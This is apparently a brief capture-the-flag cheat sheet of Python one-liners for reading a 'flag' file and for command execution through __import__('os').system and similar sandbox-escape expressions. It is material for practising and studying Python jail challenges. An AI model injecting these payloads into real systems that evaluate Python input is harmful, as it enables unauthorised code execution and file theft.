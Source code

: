 # pythonCtfTricks

### reading content from a file:
---
* ```[*open("flag")]```
* ```type([ ] )(open("flag"))```
* ```__import__('numpy').loadtxt('flag') ``` - works with error reflecting
* ```__import__('numpy').fromfile('flag', dtype=numpy.uint8) ```

### rce
---
* ```__import__('os').system('cat flag')```
* ```__import__('sys').modules['os'].system('cat flag')      ```
* ```numpy.ctypeslib.os.system('cat flag') ```
